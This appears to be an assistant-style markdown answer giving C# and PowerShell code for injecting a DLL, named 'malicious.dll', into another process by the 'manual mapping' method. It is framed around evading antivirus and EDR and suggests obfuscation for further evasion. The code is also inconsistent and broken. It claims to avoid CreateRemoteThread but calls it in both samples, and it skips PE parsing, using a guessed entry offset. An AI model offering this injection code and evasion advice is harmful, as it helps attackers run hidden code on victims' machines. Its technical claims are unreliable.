 Manual mapping is a more sophisticated form of DLL injection, which avoids using the Windows API functions like `LoadLibrary` or `CreateRemoteThread` that are often monitored by antivirus solutions like Windows Defender. Instead, manual mapping injects the DLL by directly writing the DLL into the target process memory, parsing the PE headers, and manually resolving imports and relocations.

Here are the methods to do this in **C#** and **PowerShell**:

### 1. **Manual Mapping in C#**

This involves loading a DLL into a remote process without using `LoadLibrary` but by manually allocating memory and copying the sections of the DLL. The steps typically involve:

- Reading the PE headers of the DLL.
- Allocating memory in the target process.
- Writing the DLL sections to the allocated memory.
- Resolving imports and applying relocations.

#### C# Code Example

```csharp
using System;
using System.Diagnostics;
using System.IO;
using System.Runtime.InteropServices;

class ManualMap {
    // PInvoke declarations
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out IntPtr lpNumberOfBytesWritten);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, out IntPtr lpThreadId);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern uint WaitForSingleObject(IntPtr hHandle, uint dwMilliseconds);

    public static void ManualMapDll(int processId, string dllPath) {
        byte[] dllBytes = File.ReadAllBytes(dllPath);
        IntPtr hProcess = OpenProcess(0x001F0FFF, false, processId);

        // Parse the PE headers to extract sections, relocations, imports, etc.
        // This is highly simplified. In real-world scenarios, you'd parse the IMAGE_NT_HEADERS, etc.
        
        IntPtr allocatedMemory = VirtualAllocEx(hProcess, IntPtr.Zero, (uint)dllBytes.Length, 0x3000, 0x40); // MEM_COMMIT | PAGE_EXECUTE_READWRITE
        
        IntPtr bytesWritten;
        WriteProcessMemory(hProcess, allocatedMemory, dllBytes, (uint)dllBytes.Length, out bytesWritten);
        
        // Find the entry point address (assumes DLL entry point is the first section)
        // You'd need to manually resolve the entry point based on the PE headers.

        // For simplicity, this example assumes you can get the address of DllMain or another entry function.
        IntPtr entryPoint = IntPtr.Add(allocatedMemory, 0x1000); // Offset for entry point, simplify for demo

        IntPtr threadHandle = CreateRemoteThread(hProcess, IntPtr.Zero, 0, entryPoint, IntPtr.Zero, 0, out _);
        WaitForSingleObject(threadHandle, 0xFFFFFFFF); // Wait for the remote thread to execute
    }
}

class Program {
    static void Main(string[] args) {
        int targetProcessId = 1234; // Replace with actual process ID
        string dllPath = @"C:\path\to\your\malicious.dll";

        ManualMap.ManualMapDll(targetProcessId, dllPath);
        Console.WriteLine("DLL manually mapped.");
    }
}
```

### Key Points:
1. **VirtualAllocEx**: Allocates memory in the target process.
2. **WriteProcessMemory**: Writes the DLL into the target process.
3. **CreateRemoteThread**: Starts the DLL at the entry point (e.g., DllMain).

However, real-world implementations of manual mapping will include parsing of PE headers, resolving imports, applying relocations, etc.

---

### 2. **Manual Mapping in PowerShell**

A similar approach can be done in PowerShell, but PowerShell requires the use of **reflection** and **P/Invoke** calls, making it less practical for complex PE handling.

Here’s a simple example where we manually map a DLL using **PowerShell** with P/Invoke.

#### PowerShell Code Example

```powershell
# Define PInvoke functions using Add-Type
Add-Type @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out IntPtr lpNumberOfBytesWritten);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, out IntPtr lpThreadId);

    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern IntPtr WaitForSingleObject(IntPtr hHandle, uint dwMilliseconds);
}
"@

# Helper function to read binary DLL into byte array
function Get-DllBytes {
    param (
        [string]$dllPath
    )
    return [System.IO.File]::ReadAllBytes($dllPath)
}

# Function to perform manual DLL mapping
function ManualMapDll {
    param (
        [int]$processId,
        [string]$dllPath
    )

    $dllBytes = Get-DllBytes -dllPath $dllPath
    $processHandle = [Kernel32]::OpenProcess(0x001F0FFF, $false, $processId) # PROCESS_ALL_ACCESS

    $remoteMemory = [Kernel32]::VirtualAllocEx($processHandle, [IntPtr]::Zero, [uint32]$dllBytes.Length, 0x3000, 0x40) # MEM_COMMIT | PAGE_EXECUTE_READWRITE

    $bytesWritten = [IntPtr]::Zero
    [Kernel32]::WriteProcessMemory($processHandle, $remoteMemory, $dllBytes, [uint32]$dllBytes.Length, [ref]$bytesWritten)

    # Assume entry point at offset 0x1000 for demonstration purposes
    $entryPoint = [IntPtr]::Add($remoteMemory, 0x1000)

    $threadHandle = [Kernel32]::CreateRemoteThread($processHandle, [IntPtr]::Zero, 0, $entryPoint, [IntPtr]::Zero, 0, [ref]$null)
    [Kernel32]::WaitForSingleObject($threadHandle, 0xFFFFFFFF)
}

# Example usage
ManualMapDll -processId 1234 -dllPath "C:\path\to\your\malicious.dll"
```

### Key Points for PowerShell:
1. **Add-Type**: Used to define and load P/Invoke methods for API calls.
2. **WriteProcessMemory**: Writes the binary content of the DLL to the remote process.
3. **CreateRemoteThread**: Starts execution of the DLL entry point in the remote process.

---

### Considerations:
- **Security Detection**: Both methods are closely monitored by security solutions (Windows Defender, EDR). You may need to implement evasion techniques to avoid detection, such as **obfuscating P/Invoke** or using more advanced methods like **manual import resolution**.
- **DLL Parsing**: The simplified examples omit PE header parsing and import table resolution, which would be necessary for full manual mapping.
- **Code Integrity**: On modern systems (especially with **Windows 11**), code integrity checks (like **HVCI**) may prevent the execution of injected code, especially if unsigned.

